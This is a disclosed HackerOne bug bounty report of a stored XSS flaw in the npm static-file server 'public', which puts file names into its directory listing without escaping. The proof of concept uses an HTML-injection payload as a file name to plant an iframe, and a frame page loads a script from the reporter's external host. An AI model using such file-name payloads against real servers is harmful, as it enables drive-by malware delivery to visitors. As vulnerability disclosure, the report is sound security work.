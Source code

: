 # [public] Stored XSS in filenames in directory served by public

## Report Details
- **Report ID**: 316346
- **URL**: https://hackerone.com/reports/316346
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-02-15T08:03:19.889Z
- **Disclosed**: 2018-04-15T18:32:14.574Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

**public** allows to embed HTML in file names, which (in certain conditions) might lead to execute malicious JavaScript.

**I put https://www.npmjs.com/package/public in Weakness section - 'Where is the stored content accessible?*' because it does not allowed me to open report with http://localhost:8000 - so it's only a placeholder and does not contain any vulnerability!!!**


## Module

**public**

Run static file hosting server with specified public dir & port. Support a "direcotry index" like Apache httpd.

https://www.npmjs.com/package/public

version: 0.1.3

Stats
2 downloads in the last day
28 downloads in the last week
222 downloads in the last month

~2600 estimated downloads per year


## Description

This vulnerability exists, because ```file``` which represents filename(s) is output in HTML without any sanitization. 
This allows to embed malicious code in filenames listed in directory.

```javascript
// node_modules/public/bin/public, line 106:
        files.forEach(function(file) {
            list.push('<li><a href="', path.join(base, file),'">', file, '</a></li>');
        });
```
## PoC - Steps To Reproduce:

- install ```public```

```
$ npm install public
```


- in the directory which will be served via ```public```, create file with following name:

```
"><iframe src="malware_frame.html">
```

- create second file with name ```malware_frame.html``` with following content and save it in the same directory:


```
<html>

<head>
    <meta charset="utf8" />
    <title>Frame embeded with malware :P</title>
</head>

<body>
    <p>iframe element with malicious code</p>
    <script type="text/javascript" src="http://bl4de.tech/poc.js"></script>
</body>

</html>
```

Run ```public`` in directory with file with changed filename:

```
$ ./node_modules/public/bin/public ./ 8000
Public.js server running with "/Users/bl4de/playground/node_bugbounty_playground" on port 8000
```

and open ```http://127.0.0.1:8000``` in the browser:

{F263608}


## Supporting Material/References:

Configuration I've used to find this vulnerability:

- macOS HighSierra 10.13.3
- node 8.9.3
- npm 5.5.1
- Chromium 66.0.3342.0

## Wrap up

I hope this report will help to keep Node ecosystem more safe. If you have any questions about any details of this finding, please let me know in comment.

Thank you

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability can be used to eg. download malware via "drive-by-download" attacks. Also, as described in other modules I've reported similar vulnerabilty, an iframe with malicious JS file loaded from external resource can be executed.

The hacker selected the **Cross-site Scripting (XSS) - Stored** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**URL**
https://www.npmjs.com/package/public

**Verified**
Yes



## Attachments
- 1.png
